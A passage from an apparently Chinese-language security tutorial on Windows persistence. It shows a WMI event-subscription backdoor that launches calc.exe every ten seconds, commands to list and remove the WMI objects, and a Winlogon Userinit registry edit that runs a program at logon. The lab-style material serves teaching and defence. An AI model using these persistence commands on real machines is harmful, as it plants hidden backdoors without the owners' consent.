Set-WmiInstance -Class __FilterToConsumerBinding -Namespace "root\subscription" -Arguments @{Filter=$WMIEventFilter;Consumer=$WMIEventConsumer}
```


直接运行后可以在进程列表中看到每10秒钟运行一个新的calc.exe进程：


更多的关于Set-WmiInstance的细节可以参考：

https://docs.microsoft.com/zh-cn/powershell/module/Microsoft.PowerShell.Management/Set-WmiInstance?view=powershell-5.1&redirectedfrom=MSDN

上面的WMIBackdoor脚本实际上就是分别创建了Filter、Consumer、Binding三个功能，组合在一起实现了calc.exe的自动运行。

可以通过命令查看对应的Filter、Consumer、Binding：

```
#List Event Filters
Get-WMIObject -Namespace root\Subscription -Class __EventFilter
#List Event Consumers
Get-WMIObject -Namespace root\Subscription -Class __EventConsumer
#List Event Bindings
Get-WMIObject -Namespace root\Subscription -Class __FilterToConsumerBinding
```

删除：

```
#Filter
Get-WMIObject -Namespace root\Subscription -Class __EventFilter -Filter "Name='TestWMI'" | Remove-WmiObject -Verbose
#Consumer
Get-WMIObject -Namespace root\Subscription -Class CommandLineEventConsumer -Filter "Name='attackWMI'" | Remove-WmiObject -Verbose
#Binding
Get-WMIObject -Namespace root\Subscription -Class __FilterToConsumerBinding -Filter "__Path LIKE '%BotFilter82%'" | Remove-WmiObject -Verbose
```

## Winlogon Helper DLL- T1004

Winlogon.exe是Windows组件，负责登录/注销时的操作以及由Ctrl-Alt-Delete触发的安全注意序列（SAS）。

```
HKLM\Software[Wow6432Node]Microsoft\Windows NT\CurrentVersion\Winlogon\
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\
```

上面两个注册表中的注册表项用于管理支持Winlogon的其他帮助程序和功能。也就是说攻击者可以通过修改这两个注册表的内容来进行插入后门的操作。其中主要已知的能够被修改并添加后门的键值为：

```
Winlogon\Notify
Winlogon\Userinit
Winlogon\Shell
```

实验：

在注册表下面注册表中添加C:\Windows\System32\calc.exe

```
HKLM\Software[Wow6432Node]Microsoft\Windows NT\CurrentVersion\Winlogon\
```


再次登录时（需要注销的情况下会触发，注销而不是锁定）会发现弹出计算器。

注册表修改命令：

```
reg.exe add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d C:\Windows\system32\userinit.exe,C:\Windows\system32\calc.exe /f
```

